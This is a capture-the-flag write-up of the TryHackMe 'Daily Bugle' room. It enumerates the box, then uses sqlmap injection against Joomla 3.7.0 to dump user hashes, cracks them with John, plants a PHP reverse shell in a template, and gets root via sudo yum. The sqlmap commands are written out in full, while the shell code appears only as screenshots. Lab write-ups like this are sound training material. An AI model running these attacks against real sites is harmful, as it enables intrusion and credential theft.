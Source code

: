 ```yaml
---
Title: TryHackMe - Daily Bugle
Description:Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.
categories:
 - tryhackme
tags: tryhackme , joomla, sqli, oscp, yum
---
```


## Summary

Daily Bugle is free box on Tryhackme OSCP learning path. 

## Enumeration/Reconnaissance
![](https://i.imgur.com/tzKm3a6.png)

Here is nmap result, we got three service running.
PORT       Service
22/tcp     ssh
80/tcp     http(Apache)
3306/tcp   mysql(MariaDB)

lets start with port 80 to deep dive.

And we found who rob the Bank
![](https://i.imgur.com/bSR8SzI.png)

To check for intresting directory lets fire up GoBuster.

![](https://i.imgur.com/WwjnMlr.png)

After checking directory we got admin panel.
![](https://i.imgur.com/eR2ePC3.png)

To get more info on joomla, i have used joomscan
![](https://i.imgur.com/YURMF5t.png)

Here nothing seems to be new but we got the joomla version Joomla 3.7.0

Searchsploit shows that joomla version 3.7.0 is vulnerable to sql injection.
![](https://i.imgur.com/2BjGrQb.png)

## Exploit
Here is that sqlmap command vulnerable to joomla 3.7.0
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
Lets start Sqlmap with above command.
![](https://i.imgur.com/ChiMPO1.png)
Here, we have declared cookies. So continue with Yes.
![](https://i.imgur.com/sMOS6iW.png)
To skip test payloads specifice for other database. So continue with Y.
![](https://i.imgur.com/6yZB6d2.png)
We got our vulnearable parameter. so stop testing with N.
![](https://i.imgur.com/DkWP4GN.png)
We got five Vulnerable database. Joomla looks interesting!!!
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla --tables
```
![](https://i.imgur.com/IQprwWV.png)
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" --columns
```
Now lets check the columns of Joomla. We got a table "#__users"


![](https://i.imgur.com/9u2jP3c.png)
Lets find out the columns of table "__users".

![](https://i.imgur.com/VlpSAiz.png)
We got five columns.Lets check for username and password.

```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" -c username --dump
```

![](https://i.imgur.com/mpCqnR8.png)
We got the username jonah

```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" -c password --dump
```
![](https://i.imgur.com/sb3qaHV.png)
lets check the password. We got hash
![](https://i.imgur.com/Pbztfh3.jpg)

## Password Cracking
Time to crack the hash. Here, I have used John to crack the hash
```
$ john --wordlist=/user/share/wordlists/rockyou.txt hash.txt
```
![](https://i.imgur.com/bjv8Hte.jpg)

We got the username and password. Lets goto admin panel and logged in.

![](https://i.imgur.com/R9s3ZQy.png)

Here, I got the template to insert the code. We can to insert reverse shell.
![](https://i.imgur.com/6FR9hhW.png)

![](https://i.imgur.com/RXOHVya.png)
## Reverse shell/Connection
Here I have used PentestMonkey Php Reverse-shell.
![](https://i.imgur.com/v8ChQNM.png)

Now, start netcat to listen on port 4444
![](https://i.imgur.com/oqsRAh7.png)

After saving the template. Click on Template Preview to get the reverse shell.
![](https://i.imgur.com/sUrErlE.png)
We got reverse connection in netcat.
![](https://i.imgur.com/Ith2FCR.png)
We got new user.
![](https://i.imgur.com/7SHM0Iq.png)
After searching, i got configuration file in /var/www/html/configuration.php
![](https://i.imgur.com/Nh4usCL.jpg)
So, got username and password of jjameson. lets switch to jjameson
![](https://i.imgur.com/hATkoiv.jpg)
## Privilege Escalation
For privilege Escalation, it was too easy. tried to start with sudo and got it.
sudo -l
![](https://i.imgur.com/hd2x2kz.png)
Now, goto GFTObin for yum
![](https://i.imgur.com/MYP9hKQ.png)
Copy paste this in your shell and boom
![](https://i.imgur.com/VLqdgFL.png)
## Root
we got root access and root.txt
![](https://i.imgur.com/WgPIsfX.jpg)




















